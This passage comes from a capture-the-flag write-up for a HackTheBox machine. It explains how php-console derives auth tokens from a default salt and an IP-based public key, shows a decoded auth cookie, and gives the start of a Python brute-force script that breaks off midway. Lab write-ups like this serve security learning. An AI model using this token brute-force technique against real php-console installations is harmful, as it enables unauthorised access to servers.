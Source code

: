 ***The public key is calculate based in our ip address(in this case, the hackthebox reverse proxy one), i will not enter in all details but you can take a look [here](https://github.com/barbushin/php-console/blob/aaf84d32782ef6122732b43b1e26cb15fd12f7c5/src/PhpConsole/Auth.php#L72) in the php-console source code, it's very simple***


Now i will enter 123456 in the extension and see if i can get the same token, take a look at our request:

```
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiZDFkNThiMmY3MzJmZDU0NmQ5NTA3ZGEyNzVhNzFiZGRjMGMyMzAwYTIxNGFmM2YzZjNhNWY1ZjI0OWZlMjc1ZSIsInRva2VuIjoiNzA4YTcwMzI1MDlhZWQ2YWRmMDU1NjIzN2I4NDI0OTFjMGZlOTkwYzU4YjdiYzY2ZDM2YzMwYTYwMDRjNWIwOSJ9fQ==
```
Decoding:

```
{"php-console-client":5,"auth":{"publicKey":"d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e","token":"708a7032509aed6adf0556237b842491c0fe990c58b7bc66d36c30a6004c5b09"}}
```

Good!! Now its possible to generate our custom ```brute force``` script :), i took a deep and long breath, made some coffe and started to code. And i came up with this php-console bruteforce script!

```python
import hashlib
import sys

import json,base64
import requests


class PHP_ConsoleAuth:
    def __init__(self, password, salt, remote_addr = None, pub_key = None):
        self.password = password
        self.salt = salt
        self.remote_addr = remote_addr
        self.pass_hash = None
        self.token = None   
        self.pub_key = pub_key

    
    def getToken(self):
        self.token =  hashlib.sha256(self.pass_hash.encode() + self.pub_key.encode()).digest().hex()
        return self.token
    
    def setPassword(self, password):
        self.password = password

    def calcPassHash(self):
        self.pass_hash = hashlib.sha256(self.password.encode() + self.salt.encode()).digest().hex()
        return self.pass_hash

"""
Auth lib -> https://github.com/barbushin/php-console/blob/master/src/PhpConsole/Auth.php

"""
if __name__ == '__main__':
    
    SALT = 'NeverChangeIt:)'
    # Pub key is unique because its the sha256sum(clientUID + passwordHash) and the clientUI is the Remote Address, in our case is a fixed one
    # Extracted using chrome extension
    PUB_KEY = "d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e" 
    passwords_list = sys.argv[2]
```